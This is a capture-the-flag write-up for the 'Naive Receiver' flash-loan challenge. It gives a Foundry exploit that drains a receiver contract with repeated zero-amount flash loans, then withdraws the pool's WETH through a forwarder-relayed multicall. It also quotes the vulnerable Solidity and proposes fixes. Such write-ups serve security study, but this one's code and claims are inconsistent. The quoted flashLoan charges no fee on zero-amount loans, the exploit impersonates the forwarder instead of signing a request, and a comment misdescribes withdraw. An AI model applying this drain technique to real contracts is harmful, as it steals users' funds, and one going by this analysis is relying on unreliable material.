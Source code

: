 ## Challenge 2: Naive Receiver

### Vulnerability
The `NaiveReceiverPool` allows anyone to request flash loans on behalf of any receiver, and the receiver pays fees without validation.

### Exploit Code
```solidity
// In NaiveReceiver.t.sol - test_naiveReceiver() function
function test_naiveReceiver() public checkSolvedByPlayer {
    // Prepare the multicall: 10 flash loans + 1 withdraw
    bytes[] memory calls = new bytes[](11);

    // 10 flash loans (0 amount, but 1 WETH fee each)
    for (uint i = 0; i < 10; i++) {
        calls[i] = abi.encodeCall(
            pool.flashLoan,
            (address(receiver), address(pool.weth()), 0, "")
        );
    }

    // Withdraw all WETH from the pool to recovery address
    calls[10] = abi.encodeCall(
        pool.withdraw,
        (1000 ether, payable(recovery))
    );

    // Owner is the original deployer of the pool
    address owner = address(100); // Standard in this challenge

    // Use the forwarder to call multicall, so _msgSender() returns owner
    // We impersonate the forwarder to call execute()
    vm.startPrank(address(forwarder));

    // forwarder.execute(target, data, forwarderSender)
    forwarder.execute{value: 0}(
        address(pool),
        abi.encodeCall(pool.multicall, (calls)),
        owner // This gets appended to msg.data, making _msgSender() = owner
    );

    vm.stopPrank();

    // ✅ FlashLoanReceiver balance should now be 0
    // ✅ recovery should receive 1000 WETH from pool (fees stay in pool)
    // Challenge solved!
}   
```

### Why it works
1. Flash loans can be called on behalf of any receiver
2. Receiver pays 1 ETH fee per loan without validation
3. Multicall allows executing multiple operations in single transaction
4. After draining receiver, we can withdraw pool funds to recovery address

### Fix
**File:** `src/naive-receiver/NaiveReceiverPool.sol`
**Vulnerable Code (lines ~76-85):**
```solidity
function flashLoan(
    IERC3156FlashBorrower receiver,
    address token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    // No validation that msg.sender == address(receiver)!
    
    if (token != address(weth)) revert UnsupportedCurrency();
    if (amount >= FLASH_LOAN_FEE) {
        weth.transfer(address(receiver), amount);
        
        totalFees += FLASH_LOAN_FEE;
        
        if (receiver.onFlashLoan(msg.sender, token, amount, FLASH_LOAN_FEE, data) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }
        
        // Fee is deducted from receiver regardless of who initiated!
        weth.transferFrom(address(receiver), address(this), amount + FLASH_LOAN_FEE);
    }
    return true;
}
```

**The Problem:** Anyone can call `flashLoan()` on behalf of any receiver contract. The receiver pays the fee but has no control over when loans are taken.

**Additional Vulnerability in `withdraw()` (lines ~103-108):**
```solidity
function withdraw(uint256 amount, address payable receiver) external {
    // No access control - anyone can withdraw to any address!
    deposits[msg.sender] = deposits[msg.sender] - amount;
    weth.transfer(receiver, amount);
}
```

**Fixed Code:**
```solidity
function flashLoan(
    IERC3156FlashBorrower receiver,
    address token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    // ADD: Require caller is the receiver or approved operator
    require(
        msg.sender == address(receiver) || 
        isApprovedOperator[address(receiver)][msg.sender],
        "Unauthorized flash loan"
    );
    
    if (token != address(weth)) revert UnsupportedCurrency();
    // ... rest of function
}

// Add operator approval system
mapping(address => mapping(address => bool)) public isApprovedOperator;

function setOperatorApproval(address operator, bool approved) external {
    isApprovedOperator[msg.sender][operator] = approved;
}

function withdraw(uint256 amount, address payable receiver) external {
    // ADD: Require receiver is msg.sender or approved
    require(
        receiver == msg.sender || 
        isApprovedOperator[msg.sender][address(receiver)],
        "Unauthorized withdrawal destination"
    );
    
    deposits[msg.sender] = deposits[msg.sender] - amount;
    weth.transfer(receiver, amount);
}
```
